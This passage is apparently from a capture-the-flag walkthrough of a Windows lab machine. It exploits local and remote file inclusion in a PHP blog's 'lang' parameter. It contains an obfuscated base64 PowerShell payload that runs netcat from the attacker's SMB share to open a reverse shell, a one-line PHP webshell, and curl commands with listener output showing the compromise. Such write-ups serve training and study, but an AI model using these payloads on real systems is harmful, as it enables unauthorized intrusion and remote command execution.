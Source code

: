 Now, I’ll register as:

```

<?php echo `powershell /enc YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgA2AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgA2ACAANAA0ADMAIgAKAA==` ?>

```

Once I log in, I can include the session data:

```

root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr'

```

This just hangs, but I’ve got a shell on my listener:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.151.
Ncat: Connection from 10.10.10.151:49706.
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
nt authority\iusr

```

### path 2 - RFI

With the RFI identified earlier, I can include a simple PHP webshell, `cmd.php`:

```

<?php system($_REQUEST['cmd']); ?>

```

Now I can request that shell, and include a `cmd` parameter:

```

root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\cmd.php' --data-urlencode 'cmd=whoami' | sed -n '/<\/html>/,/<\/body>/p'                       
</html>
nt authority\iusr
</body>
</html>

```

